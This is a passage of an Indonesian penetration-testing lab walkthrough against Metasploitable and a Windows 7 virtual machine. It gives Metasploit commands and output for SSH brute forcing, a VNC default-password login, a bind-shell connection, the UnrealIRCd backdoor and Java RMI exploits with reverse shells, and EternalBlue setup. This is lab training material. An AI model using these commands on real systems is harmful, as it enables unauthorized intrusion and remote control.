PASS_FILE => /home/ucup/Desktop/password.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set VERBOSE true
VERBOSE => true
msf6 auxiliary(scanner/ssh/ssh_login) > run

[*] 192.168.1.22:22 - Starting bruteforce
[-] 192.168.1.22:22 - Failed: 'msfadmif:msfadmii'
[!] No active DB -- Credential data will not be saved!
[-] 192.168.1.22:22 - Failed: 'msfadmif:msfadmif'
[-] 192.168.1.22:22 - Failed: 'msfadmif:msfadmia'
[-] 192.168.1.22:22 - Failed: 'msfadmif:msfadmid'
[-] 192.168.1.22:22 - Failed: 'msfadmif:msfadmin'
...
[-] 192.168.1.22:22 - Failed: 'msfadmin:msfadmid'
[+] 192.168.1.22:22 - Success: 'msfadmin:msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[*] SSH session 1 opened (192.168.1.21:35813 -> 192.168.1.22:22) at 2024-12-16 23:11:46 +0800
[-] 192.168.1.22:22 - Failed: 'msfadmfm:msfadmii'
[-] 192.168.1.22:22 - Failed: 'msfadmfm:msfadmif'
...
[-] 192.168.1.22:22 - Failed: 'msfadmfs:'
[-] 192.168.1.22:22 - Failed: 'msfadmfi:'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Dari output diatas ketika metasploit mendapatkan username dan password ssh, metasploit akan membuka session baru, kita bisa melihat session yang terbuka dan bisa langsung digunakan.

```bash
msf6 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type         Information  Connection
  --  ----  ----         -----------  ----------
  1         shell linux  SSH ucup @   192.168.1.21:35813 -> 192.168.1.22:22 (192.168.1.22)

msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 1

[*] Starting interaction with 1...
```

Banggg!!!!. Berhasil.

#### Exploit VNC

Jika kita kembali pada hasil scan nessus sebelumnya, terdapat vurnerability pada VNC Server seperti gambar dibawah ini:



Dalam keterangan gambar di atas nessus berhasil menemukan vurnerability dari password VNC Server yaitu `password` pada port `5900`. Dengan data tersebut kita bisa langsung masuk ke dalam vnc server Metasploitable target.

```bash
vncviewer 192.168.1.22
```



Banggg!!!!.

__Exploit Bind Shell__

Pada hasil lain nessus vurnerability analysis terdapat vurnerability pada bind shell pada port 1524:



Pada keterangan gambar di atas, terdapat shell yang sedang menunggu remote tanpa adanya authentication. Kita dapat menggunakan tools `netcat` pada Kali Linux untuk terhubung dengan target.

```bash
$ netcat 192.168.1.22 1524

root@metasploitable:/# 
```
Bangggg!!!!!

#### Exploit IRC

IRC adalah Internet Relay Chat, yang merupakan jaringan server internet yang memungkinkan pengguna untuk melakukan percakapan teks secara real-time. Dari hasil scan nmap ditemukan port terbukan pada `6667/tcp open  irc  UnrealIRCd`.

```bash
$ nmap -sV 192.168.1.22              

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-17 21:32 +08
Nmap scan report for 192.168.1.22 (192.168.1.22)
Host is up (0.028s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 08:00:27:27:B4:9C (Oracle VirtualBox virtual NIC)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.12 seconds
```                         

Pencarian exploit `UnrealIRCd`

```bash
$ searchsploit unrealircd
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                  |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                                                                                    | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                                                                                                         | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                                                                                                                  | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                                                                                                                       | windows/dos/27407.pl
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Kita menemukan exploit `UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit) linux/remote/16922.rb` yang dimiliki oleh metasploit, untuk itu kita akan masuk ke dalam metasploit.

```bash
$ msfconsole

Metasploit tip: Network adapter names can be used for IP options set LHOST 
eth0
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo
  dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx
  lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl
  .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.
   cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc
    oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo
     lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl
      ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;
       .dOOo'WM.OOOOocccxOOOO.MX'xOOd.
         ,kOl'M.OOOOOOOOOOOOO.M'dOk,
           :kk;.OOOOOOOOOOOOO.;Ok:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.4.38-dev                          ]
+ -- --=[ 2467 exploits - 1273 auxiliary - 431 post       ]
+ -- --=[ 1478 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search unrealircd

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/irc/unreal_ircd_3281_backdoor

msf6 > use 0
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    6667             yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


View the full module info with the info, or info -d command.

msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 192.168.1.22
RHOSTS => 192.168.1.22
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[-] 192.168.1.22:6667 - Exploit failed: A payload has not been selected.
[*] Exploit completed, but no session was created.
```

Dari hasil di atas kita perlu memasukan `payload`, dan karena menggunakan payload kita perlu memasukan juga `LHOST` yaitu ip Kali Linux kita:

```bash
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show payloads

Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   payload/cmd/unix/adduser                    .                normal  No     Add user with useradd
   1   payload/cmd/unix/bind_perl                  .                normal  No     Unix Command Shell, Bind TCP (via Perl)
   2   payload/cmd/unix/bind_perl_ipv6             .                normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   3   payload/cmd/unix/bind_ruby                  .                normal  No     Unix Command Shell, Bind TCP (via Ruby)
   4   payload/cmd/unix/bind_ruby_ipv6             .                normal  No     Unix Command Shell, Bind TCP (via Ruby) IPv6
   5   payload/cmd/unix/generic                    .                normal  No     Unix Command, Generic Command Execution
   6   payload/cmd/unix/reverse                    .                normal  No     Unix Command Shell, Double Reverse TCP (telnet)
   7   payload/cmd/unix/reverse_bash_telnet_ssl    .                normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   8   payload/cmd/unix/reverse_perl               .                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   9   payload/cmd/unix/reverse_perl_ssl           .                normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   10  payload/cmd/unix/reverse_ruby               .                normal  No     Unix Command Shell, Reverse TCP (via Ruby)
   11  payload/cmd/unix/reverse_ruby_ssl           .                normal  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
   12  payload/cmd/unix/reverse_ssl_double_telnet  .                normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)

msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload 6
payload => cmd/unix/reverse
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST 192.168.1.21
LHOST => 192.168.1.21
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP double handler on 192.168.1.21:4444 
[*] 192.168.1.22:6667 - Connected to 192.168.1.22:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] 192.168.1.22:6667 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo uU16gNE6uINFz3Lp;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "uU16gNE6uINFz3Lp\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.1.21:4444 -> 192.168.1.22:55337) at 2024-12-17 21:59:13 +0800

```

Banggggg!!!!!

#### Exploit Java RMI

Selanjutnya kita akan mencoba exploit java rmi, buka console metasploit:

```bash
$ msfconsole

Metasploit tip: Search can apply complex filters such as search cve:2009 
type:exploit, see all the filters with help search
                                                  
  +-------------------------------------------------------+
  |  METASPLOIT by Rapid7                                 |                                                                                                                                                       
  +---------------------------+---------------------------+                                                                                                                                                       
  |      __________________   |                           |                                                                                                                                                       
  |  ==c(______(o(______(_()  | |""""""""""""|======[***  |                                                                                                                                                       
  |             )=\           | |  EXPLOIT   \            |                                                                                                                                                       
  |            // \\          | |_____________\_______    |                                                                                                                                                       
  |           //   \\         | |==[msf >]============\   |                                                                                                                                                       
  |          //     \\        | |______________________\  |                                                                                                                                                       
  |         // RECON \\       | \(@)(@)(@)(@)(@)(@)(@)/   |                                                                                                                                                       
  |        //         \\      |  *********************    |                                                                                                                                                       
  +---------------------------+---------------------------+                                                                                                                                                       
  |      o O o                |        \'\/\/\/'/         |                                                                                                                                                       
  |              o O          |         )======(          |                                                                                                                                                       
  |                 o         |       .'  LOOT  '.        |                                                                                                                                                       
  | |^^^^^^^^^^^^^^|l___      |      /    _||__   \       |                                                                                                                                                       
  | |    PAYLOAD     |""\___, |     /    (_||_     \      |                                                                                                                                                       
  | |________________|__|)__| |    |     __||_)     |     |                                                                                                                                                       
  | |(@)(@)"""**|(@)(@)**|(@) |    "       ||       "     |                                                                                                                                                       
  |  = = = = = = = = = = = =  |     '--------------'      |                                                                                                                                                       
  +---------------------------+---------------------------+                                                                                                                                                       


       =[ metasploit v6.4.38-dev                          ]
+ -- --=[ 2467 exploits - 1273 auxiliary - 431 post       ]
+ -- --=[ 1478 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search java_rmi

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  auxiliary/gather/java_rmi_registry              .                normal     No     Java RMI Registry Interfaces Enumeration
   1  exploit/multi/misc/java_rmi_server              2011-10-15       excellent  Yes    Java RMI Server Insecure Default Configuration Java Code Execution
   2    \_ target: Generic (Java Payload)             .                .          .      .
   3    \_ target: Windows x86 (Native Payload)       .                .          .      .
   4    \_ target: Linux x86 (Native Payload)         .                .          .      .
   5    \_ target: Mac OS X PPC (Native Payload)      .                .          .      .
   6    \_ target: Mac OS X x86 (Native Payload)      .                .          .      .
   7  auxiliary/scanner/misc/java_rmi_server          2011-10-15       normal     No     Java RMI Server Insecure Endpoint Code Execution Scanner
   8  exploit/multi/browser/java_rmi_connection_impl  2010-03-31       excellent  No     Java RMIConnectionImpl Deserialization Privilege Escalation


Interact with a module by name or index. For example info 8, use 8 or use exploit/multi/browser/java_rmi_connection_impl

msf6 > use 1

[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/misc/java_rmi_server) > show options

Module options (exploit/multi/misc/java_rmi_server):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               yes       Time that the HTTP Server will wait for the payload request
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      1099             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL for incoming connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                     no        The URI to use for this exploit (default is random)


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.21     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


View the full module info with the info, or info -d command.

msf6 exploit(multi/misc/java_rmi_server) > set RHOSTS 192.168.1.22
RHOSTS => 192.168.1.22
msf6 exploit(multi/misc/java_rmi_server) > show options

Module options (exploit/multi/misc/java_rmi_server):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               yes       Time that the HTTP Server will wait for the payload request
   RHOSTS     192.168.1.22     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      1099             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL for incoming connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                     no        The URI to use for this exploit (default is random)


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.21     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


View the full module info with the info, or info -d command.

msf6 exploit(multi/misc/java_rmi_server) > run

[*] Started reverse TCP handler on 192.168.1.21:4444 
[*] 192.168.1.22:1099 - Using URL: http://192.168.1.21:8080/ZOhXk2
[*] 192.168.1.22:1099 - Server started.
[*] 192.168.1.22:1099 - Sending RMI Header...
[*] 192.168.1.22:1099 - Sending RMI Call...
[*] 192.168.1.22:1099 - Replied to request for payload JAR
[*] Sending stage (58037 bytes) to 192.168.1.22
[*] Meterpreter session 1 opened (192.168.1.21:4444 -> 192.168.1.22:38427) at 2024-12-17 22:07:33 +0800

meterpreter >
```

Bangggg!!!! kita berhasil exploit java rmi tapi ada yang berbeda kali ini kita masuk kedalam session menggunakan `meterpreter`. Kelebihan `meterpreter` kita bisa menggunakan perintah tambahan, dan untuk menggunakan perintah tersebut kita bisa menggunakan perintah `help` untuk sebagai petunjuk.

#### Exploit Windows 7 dengan Eternalblue

EternalBlue adalah perangkat lunak eksploitasi komputer yang dikembangkan oleh Badan Keamanan Nasional AS (NSA). Perangkat lunak ini didasarkan pada kerentanan di Microsoft Windows yang memungkinkan pengguna memperoleh akses ke sejumlah komputer yang terhubung ke suatu jaringan . NSA mengetahui tentang kerentanan ini tetapi tidak mengungkapkannya kepada Microsoft selama beberapa tahun, karena mereka berencana untuk menggunakannya sebagai mekanisme pertahanan terhadap serangan siber. Pada tahun 2017, NSA menemukan bahwa perangkat lunak tersebut dicuri oleh sekelompok peretas yang dikenal sebagai Shadow Brokers . Microsoft diberitahu tentang hal ini dan merilis pembaruan keamanan pada bulan Maret 2017 untuk menambal kerentanan tersebut. Sementara ini terjadi, kelompok peretas tersebut mencoba melelang perangkat lunak tersebut, tetapi tidak berhasil menemukan pembeli. EternalBlue kemudian dirilis ke publik pada tanggal 14 April 2017.

__Step 1__

Install Windows 7 (_catatan: non aktifkan firewall pada Windows 7_)

__Step 2__

Scan target

```bash
$ nmap -p- -A -T4 192.168.1.5

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-18 21:45 +08
Nmap scan report for 192.168.1.5 (192.168.1.5)
Host is up (0.00050s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 08:00:27:62:D8:67 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Microsoft Windows 7|2008|8.1
OS CPE: cpe:/o:microsoft:windows_7::- cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_8.1
OS details: Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1
Network Distance: 1 hop
Service Info: Host: WINDOWS7; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: WINDOWS7, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:62:d8:67 (Oracle VirtualBox virtual NIC)
|_clock-skew: mean: -2h40m00s, deviation: 4h37m07s, median: -1s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: Windows7
|   NetBIOS computer name: WINDOWS7\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-12-18T21:46:40+08:00
| smb2-time: 
|   date: 2024-12-18T13:46:40
|_  start_date: 2024-12-18T12:30:20

TRACEROUTE
HOP RTT     ADDRESS
1   0.50 ms 192.168.1.5 (192.168.1.5)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.19 seconds
```

__Step 3__

Buka `msfconsole` dan search eternalblue.

```bash
$ msfconsole

Metasploit tip: Tired of setting RHOSTS for modules? Try globally setting it 
with setg RHOSTS x.x.x.x
                                                  

                 _---------.
             .' #######   ;."
  .---,.    ;@             @@`;   .---,..
." @@@@@'.,'@@            @@@@@',.'@@@@ ".
'-.@@@@@@@@@@@@@          @@@@@@@@@@@@@ @;
   `.@@@@@@@@@@@@        @@@@@@@@@@@@@@ .'
     "--'.@@@  -.@        @ ,'-   .'--"
          ".@' ; @       @ `.  ;'
            |@@@@ @@@     @    .
             ' @@@ @@   @@    ,
              `.@@@@    @@   .
                ',@@     @   ;           _____________
                 (   3 C    )     /|___ / Metasploit! \
                 ;@'. __*__,."    \|--- \_____________/
                  '(.,...."/


       =[ metasploit v6.4.38-dev                          ]
+ -- --=[ 2467 exploits - 1273 auxiliary - 431 post       ]
+ -- --=[ 1478 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search eternalblue

Matching Modules
================

   #   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1     \_ target: Automatic Target                  .                .        .      .
   2     \_ target: Windows 7                         .                .        .      .
   3     \_ target: Windows Embedded Standard 7       .                .        .      .
   4     \_ target: Windows Server 2008 R2            .                .        .      .
   5     \_ target: Windows 8                         .                .        .      .
   6     \_ target: Windows 8.1                       .                .        .      .
   7     \_ target: Windows Server 2012               .                .        .      .
   8     \_ target: Windows 10 Pro                    .                .        .      .
   9     \_ target: Windows 10 Enterprise Evaluation  .                .        .      .
   10  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   11    \_ target: Automatic                         .                .        .      .
   12    \_ target: PowerShell                        .                .        .      .
   13    \_ target: Native upload                     .                .        .      .
   14    \_ target: MOF upload                        .                .        .      .
   15    \_ AKA: ETERNALSYNERGY                       .                .        .      .
   16    \_ AKA: ETERNALROMANCE                       .                .        .      .
   17    \_ AKA: ETERNALCHAMPION                      .                .        .      .
   18    \_ AKA: ETERNALBLUE                          .                .        .      .
   19  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   20    \_ AKA: ETERNALSYNERGY                       .                .        .      .
   21    \_ AKA: ETERNALROMANCE                       .                .        .      .
   22    \_ AKA: ETERNALCHAMPION                      .                .        .      .
   23    \_ AKA: ETERNALBLUE                          .                .        .      .
   24  auxiliary/scanner/smb/smb_ms17_010             .                normal   No     MS17-010 SMB RCE Detection
   25    \_ AKA: DOUBLEPULSAR                         .                .        .      .
   26    \_ AKA: ETERNALBLUE                          .                .        .      .
   27  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
   28    \_ target: Execute payload (x64)             .                .        .      .
   29    \_ target: Neutralize implant                .                .        .      .


Interact with a module by name or index. For example info 29, use 29 or use exploit/windows/smb/smb_doublepulsar_rce                                                                                          
After interacting with a module you can manually set a TARGET with set TARGET 'Neutralize implant'

msf6 > 
```

Dari hasil di atas terdapat banyak exploit dari eternalblue, kita bisa mencoba `24  auxiliary/scanner/smb/smb_ms17_010` untuk mencari vurnerability target windows.

```bash
msf6 > use 24
msf6 auxiliary(scanner/smb/smb_ms17_010) > show options

Module options (auxiliary/scanner/smb/smb_ms17_010):

   Name         Current Setting              Required  Description
   ----         ---------------              --------  -----------
   CHECK_ARCH   true                         no        Check for architecture on vulnerable hosts
   CHECK_DOPU   true                         no        Check for DOUBLEPULSAR on vulnerable hosts
   CHECK_PIPE   false                        no        Check for named pipe on vulnerable hosts
   NAMED_PIPES  /usr/share/metasploit-frame  yes       List of named pipes to check
                work/data/wordlists/named_p
                ipes.txt
   RHOSTS                                    yes       The target host(s), see https://docs.metasploi
                                                       t.com/docs/using-metasploit/basics/using-metas
                                                       ploit.html
   RPORT        445                          yes       The SMB service port (TCP)
   SMBDomain    .                            no        The Windows domain to use for authentication
   SMBPass                                   no        The password for the specified username
   SMBUser                                   no        The username to authenticate as
   THREADS      1                            yes       The number of concurrent threads (max one per
                                                       host)


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.1.5
RHOSTS => 192.168.1.5
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 192.168.1.5:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Home Basic 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.1.5:445       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

msf6 auxiliary(scanner/smb/smb_ms17_010) > 
```

Dari hasil di atas ditemukan `Host is likely VULNERABLE` yang berarti kemungkinan terdapat vurnerability pada mesin Windows 7.

Kita bisa mencari lagi eternalblue dan menggunakan exploit `0   exploit/windows/smb/ms17_010_eternalblue`:

```bash
msf6 auxiliary(scanner/smb/smb_ms17_010) > search eternalblue

Matching Modules
================

   #   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1     \_ target: Automatic Target                  .                .        .      .
   2     \_ target: Windows 7                         .                .        .      .
   3     \_ target: Windows Embedded Standard 7       .                .        .      .
   4     \_ target: Windows Server 2008 R2            .                .        .      .
   5     \_ target: Windows 8                         .                .        .      .
   6     \_ target: Windows 8.1                       .                .        .      .
   7     \_ target: Windows Server 2012               .                .        .      .
   8     \_ target: Windows 10 Pro                    .                .        .      .
   9     \_ target: Windows 10 Enterprise Evaluation  .                .        .      .
   10  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   11    \_ target: Automatic                         .                .        .      .
   12    \_ target: PowerShell                        .                .        .      .
   13    \_ target: Native upload                     .                .        .      .
   14    \_ target: MOF upload                        .                .        .      .
   15    \_ AKA: ETERNALSYNERGY                       .                .        .      .
   16    \_ AKA: ETERNALROMANCE                       .                .        .      .
   17    \_ AKA: ETERNALCHAMPION                      .                .        .      .
   18    \_ AKA: ETERNALBLUE                          .                .        .      .
   19  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   20    \_ AKA: ETERNALSYNERGY                       .                .        .      .
   21    \_ AKA: ETERNALROMANCE                       .                .        .      .
   22    \_ AKA: ETERNALCHAMPION                      .                .        .      .
   23    \_ AKA: ETERNALBLUE                          .                .        .      .
   24  auxiliary/scanner/smb/smb_ms17_010             .                normal   No     MS17-010 SMB RCE Detection
   25    \_ AKA: DOUBLEPULSAR                         .                .        .      .
   26    \_ AKA: ETERNALBLUE                          .                .        .      .
   27  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
   28    \_ target: Execute payload (x64)             .                .        .      .
   29    \_ target: Neutralize implant                .                .        .      .


Interact with a module by name or index. For example info 29, use 29 or use exploit/windows/smb/smb_doublepulsar_rce
After interacting with a module you can manually set a TARGET with set TARGET 'Neutralize implant'

msf6 auxiliary(scanner/smb/smb_ms17_010) > use 0
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         192.168.1.5      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.21     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


View the full module info with the info, or info -d command.

